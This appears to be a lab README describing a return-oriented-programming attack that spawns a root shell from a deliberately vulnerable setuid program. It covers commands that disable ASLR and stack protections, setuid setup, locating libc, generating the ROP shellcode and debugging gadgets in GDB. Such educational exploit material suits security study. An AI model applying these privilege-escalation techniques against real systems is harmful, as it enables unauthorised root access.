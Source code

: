 # How to Launch a Shell in a Vulnerable Program
## Setup
- Disable ASLR:
```
sudo sysctl -w kernel.randomize_va_space=0
```
- For our example vulnerable program, we'll use `vuln.c` from assignment 1:
```
gcc -o vuln -z execstack -fno-stack-protector vuln.c
sudo chown root vuln
sudo chmod 4755 vuln
```
- In this attack, we'll assume that libc is not statically linked to the executable
- Link zsh to sh:
```
sudo ln -sf /bin/zsh /bin/sh
```

## Find Base Address of libc
- Run `ldd vuln` to find this base address:
```
	linux-gate.so.1 =>  (0xb7fd9000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e09000)
	/lib/ld-linux.so.2 (0xb7fdb000)
```
- In this example, libc's base address is `0xb7e09000`

## How to Create an ROP Shellcode
- We'll create an ROP chain to launch a shell
	- `vuln` will execute the generated `shellcode` during a buffer overflow
```
python3 gen_shellcode.py --libc_offset <libc_offset>
```
- For example:
```
python3 gen_shellcode.py --libc_offset 0xb7e09000
```
- If the `--gadgets` argument is included, we will create a shellcode with gadgets stored in that file
- **Note**: We don't recommend using `--gadgets`, because the generated shellcode won't work 100% of the time. Some gadgets found by ROPHunter may be invalid, because the actual execution could interpret the bytes differently than the Capstone disassembler.

## How to Launch a Shell
- We use GDB to determine where in the stack to store parts of the shellcode; e.g. `"/bin/sh\0"`
- However, GDB's stack frame may not match normal execution
- We use `invoke.sh` to run `vuln` within the same environment (courtesy of https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it):
- Run `vuln` in normal execution:
```
./invoke.sh vuln
```

## How to Debug this ROP Chain
### Using GDB
- Run `vuln` with GDB:
```
./invoke.sh -d vuln
```
- We mst clear the two environment variables created by GDB:
```
unset env LINES
unset env COLUMNS
```

- We can then debug this ROP chain by setting breakpoints:
```
b main	# libc only gets loaded after main(), so we have to stop at main() before setting the other breakpoints
run
b *<Gadget address>	# e.g. First gadget's address is 0x2c79c
continue
```

### Finding Correct %esp
- For some parts of the shellcode, we need to store addresses to other places on the stack
- We calculate these addresses by using the address stored in `%esp` at the first gadget
	- With return-oriented programming, `%esp` acts as the instruction pointer
- We can find this address by using GDB and can pass this address to `gen_shellcode.py` with the argument `init_esp_addr`

### Determining Valid Gadgets
- If GDB stops at the expected instruction, then we have found the correct gadget
- Unfortunately, finding the right gadgets for an ROP shell is still trial-and-error. Some gadgets may be invalid, because GDB may not interpret the gadgets in the same way as the Capstone disassembler.
